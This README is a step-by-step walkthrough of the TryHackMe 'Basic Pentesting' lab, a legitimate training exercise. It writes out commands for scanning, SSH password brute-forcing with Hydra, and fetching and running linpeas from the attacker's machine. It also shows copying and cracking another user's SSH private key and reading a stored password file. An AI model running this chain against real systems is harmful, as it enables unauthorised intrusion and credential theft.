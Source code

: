 # TryHackMe Basic Pentesting Walkthrough

## Overview

This repository contains a comprehensive walkthrough for the TryHackMe **Basic Pentesting** room. You will learn how to deploy the machine, enumerate services, brute-force credentials, and perform privilege escalation on a Linux target.

## Prerequisites

* A TryHackMe account and the Basic Pentesting room machine deployed.
* **AttackBox** or **OpenVPN** configured on your local machine.
* The following tools installed:

  * `nmap`
  * `gobuster`
  * `enum4linux`
  * `hydra`
  * `ssh`
  * `linpeas.sh` or `LinEnum`
  * `python3`, `wget`
  * `john` (John the Ripper)
  * `ssh2john`

## Table of Contents

1. [Deploy and Connect](#deploy-and-connect)
2. [Service Enumeration](#service-enumeration)
3. [Hidden Directory Discovery](#hidden-directory-discovery)
4. [Username Enumeration](#username-enumeration)
5. [Password Brute‑forcing](#password-brute-forcing)
6. [Access via SSH](#access-via-ssh)
7. [Privilege Escalation Enumeration](#privilege-escalation-enumeration)
8. [Secondary User Discovery](#secondary-user-discovery)
9. [SSH Key Extraction & Cracking](#ssh-key-extraction--cracking)
10. [Final Password Retrieval](#final-password-retrieval)
11. [Conclusion](#conclusion)

---

## Deploy and Connect

Deploy the Basic Pentesting machine in TryHackMe. Then connect using either the AttackBox or your own machine via OpenVPN:

```bash
# Using OpenVPN:
openvpn --config ~/TryHackMe/BasicPentesting.ovpn
```

## Service Enumeration

Perform a full TCP SYN scan with default scripts and version detection:

```bash
nmap -sS -sC -A -p- -T5 <TARGET_IP> | tee nmap-enum
```

## Hidden Directory Discovery

Use Gobuster to find hidden web directories:

```bash
gobuster dir \
  -u http://<TARGET_IP>/ \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -t 64 \
  -o gobuster-bruteforce
```

Visiting the discovered directory reveals `/development`.

**Hidden directory**: `development`

## Username Enumeration

Enumerate Windows/Samba information with enum4linux:

```bash
enum4linux -a <TARGET_IP> | tee enum4linux-out
```

Look for valid user accounts in the output.

**Username found**: `jan`

## Password Brute‑forcing

Brute-force SSH credentials for user `jan` using Hydra:

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://<TARGET_IP>
```

**Password obtained**: `<INSERT_JAN_PASSWORD>`

## Access via SSH

Login to the machine using SSH:

```bash
ssh jan@<TARGET_IP>
```

**Service used**: SSH

## Privilege Escalation Enumeration

Transfer and run LinEnum or LinPeas to discover local privilege escalation vectors:

```bash
# On your local machine:
python3 -m http.server --bind <YOUR_TUN0_IP> 8000

# On the target machine:
wget http://<YOUR_TUN0_IP>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Review the scan output for misconfigurations; a key-based escalation vector is identified.

## Secondary User Discovery

LinPeas reveals another user account:

**Secondary user**: `kay`

## SSH Key Extraction & Cracking

Retrieve and crack `kay`’s SSH private key:

```bash
# On the target:
cd /home/kay/.ssh
cat id_rsa > ~/kay_id_rsa

# Back on your machine:
scp jan@<TARGET_IP>:/home/kay/.ssh/id_rsa .
chmod 600 id_rsa

# Convert for John the Ripper:
ssh2john id_rsa > john-pass
john --wordlist=/usr/share/wordlists/rockyou.txt john-pass
```

**Key password**: `beeswax`

Use the cracked key to SSH as kay:

```bash
ssh -i id_rsa kay@<TARGET_IP>
```

## Final Password Retrieval

Read the final password stored in `pass.bak`:

```bash
cat /home/kay/pass.bak
```

**Final password**: `<INSERT_FINAL_PASSWORD>`

## Conclusion

Congratulations! You have successfully completed the TryHackMe Basic Pentesting room, encompassing web app testing, credential brute-forcing, and privilege escalation.

---

> Walkthrough adapted from Atharva’s Medium article: [TryHackMe Walkthrough — Basic Pentesting](https://medium.com/@athu.patil03/tryhackme-walkthrough-basic-pentesting-d0cb52f1fe64)
